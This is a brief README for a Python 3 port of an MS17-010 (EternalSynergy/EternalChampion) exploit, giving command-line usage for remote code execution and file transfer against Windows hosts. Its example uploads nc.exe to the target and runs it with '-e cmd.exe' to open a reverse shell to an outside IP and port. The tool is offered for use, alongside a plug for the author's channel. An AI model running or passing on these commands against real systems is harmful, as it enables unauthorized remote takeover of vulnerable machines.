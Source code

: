 # Eternal.py

This is a python3 implementation from the zzz_exploit. (https://github.com/worawit/MS17-010)

Original exploit was based on eternal sinergy and eternal champion. This is a partially translation to python3, with the "mysmb.py" included. Tested in windows 7, windows server 2003, and windows 10. Other Operative Systems may require to finish the translation to python3.
<br>

usage: 

   `python3 eternal.py -i <remote ip> -t <file to transfer> -o <output file name>`
   
   `python3 eternal.py -i <remote ip> -c <rce to execute>`

 NOTE: files transfered will appear inside remote host like c:\<output file name>

example: `python3 eternal.py -i 10.10.10.40 -t nc.exe -o nc.exe -c 'c:/nc.exe 10.10.15.8 4455 -e cmd.exe'`

<br>

If this exploit was usefull to you remember to subscribe to my youtube channel -> https://www.youtube.com/@artes_oscuras
